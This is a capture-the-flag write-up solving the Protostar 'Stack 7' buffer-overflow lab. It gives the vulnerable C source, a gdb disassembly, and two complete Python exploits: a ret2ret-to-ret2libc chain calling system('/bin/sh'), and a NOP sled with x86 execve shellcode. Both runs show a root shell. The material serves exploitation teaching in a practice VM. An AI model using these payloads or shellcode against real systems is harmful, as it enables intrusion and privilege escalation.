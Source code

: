 
# Stack 7


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}

```

The code looks a lot to stack6 but there are small differences : 
   - the return address cannot be an address from the stack or from the libc

Since there isn't any kind of protection or mitigation we can basically execute our 
shellcode or do a ret2libc attack with a simple ret2ret.

The idea is to overwrite the buffer and overwrite the save eip with the address of the ret instruction.
A ret instruction is simply a "pop eip" which mean putting the element on the top of the stack in eip.


So once we overwrite eip with the address of ret instruction, the next 4 bytes can this time be from the stack or the libc
(address starting with 0xb...).


To find how many bytes we need before  overwriting eip we can basically look the assembly instruction with gdb.

```
0x080484c4 <getpath+0>:	push   ebp
0x080484c5 <getpath+1>:	mov    ebp,esp
0x080484c7 <getpath+3>:	sub    esp,0x68
0x080484ca <getpath+6>:	mov    eax,0x8048620
0x080484cf <getpath+11>:	mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:	call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:	mov    eax,ds:0x8049780
0x080484dc <getpath+24>:	mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:	call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:	lea    eax,[ebp-0x4c]     <---  the 'buffer' start at ebp-0x4
0x080484e7 <getpath+35>:	mov    DWORD PTR [esp],eax 
0x080484ea <getpath+38>:	call   0x80483a4 <gets@plt>    
0x080484ef <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:	and    eax,0xb0000000
0x080484fd <getpath+57>:	cmp    eax,0xb0000000
0x08048502 <getpath+62>:	jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:	mov    eax,0x8048634
0x08048509 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:	mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:	call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:	call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:	mov    eax,0x8048640
0x08048529 <getpath+101>:	lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:	mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:	call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:	lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:	mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:	call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:	leave  
0x08048544 <getpath+128>:	ret   

```

'buffer' start at ebp-0x4c  which mean we need to overwrite 0x4c + 0x4 to overwrite ebp.
So we need to overwrite 80 bytes (0x4c+4 =80).


# ret2libc with ret2ret

In the stack6 challenge we have already explain how ret2libc work, so i'm not going to
explain it again.



find the start address of the libc:


```
(gdb) run
(gdb) info proc map
process 2189
cmdline = '/opt/protostar/bin/stack7'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so <-----------
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]

```
The start of the libc at runtime : 0xb7e97000

Address of system: 

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>

```
offset of the string '/bin/sh' in the libc: 

```
user@protostar:~$ strings -t x /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh

```
Address of exit: 
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>

```

recap :

We are going to overwrite the save eip with the address of the ret instrctuction in getpath (getpath+128)
, so once getpath will ret  we will execute once more the ret instruction. 
So the instruction pointer will now point on the next 4 bytes on the stack, which we plan to be the address of system
and then it is a simple ret2libc.

Thanks to that technique we manage to bypass the control on the address.



## payload : 

```python
import struct 

padding = b'A'*80 

ret_addres = struct.pack('<I', 0x08048544) # address of the ret instruction in getpath
system_ret=struct.pack('<I', 0xb7ecffb0) # address of system in the libc
exit_addr= struct.pack('<I',0xb7ec60c0) # address of exit in libc

libc_base_add = 0xb7e97000 # start of the libc
binsh_offset=  0x11f3bf # offset of the string /bin/sh

binsh_addr= struct.pack('<I',0xb7e97000+0x11f3bf)

payload = padding + ret_addres + system_ret  + exit_addr  + binsh_addr

print(payload)

```

We got our shell(root) : 

```
user@protostar:~$ (python stack7_ret2lib.py ;cat ) | /opt/protostar/bin/stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAD����`췿c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root


```



# execute shellcode with ret2ret




## payload


```python
import struct 


nop_sled=b'\x90'*40
shellcode = b'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80'

padding = b'A'*80

ret_addres = struct.pack('<I', 0x08048544) # address of the ret instruction in getpath
ret_addres_two=struct.pack('<I', 0xbffff7d0) # address on the stack (in the middle of the nop sled)



payload = padding + ret_addres + ret_addres_two + nop_sled + shellcode

print(payload)


```


We got our shell with root privileges :

```
user@protostar:~$ (python exploit.py; cat) | /opt/protostar/bin/stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAD��������������������������������������������1�1�1�1Ұ
                                                                                                                                                              Rhn/shh//bi��̀
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root



```


shellcode source : [shellcode](https://github.com/jjeyanthan/shellcoding/blob/main/shell_without_priv_x86/shell.hex)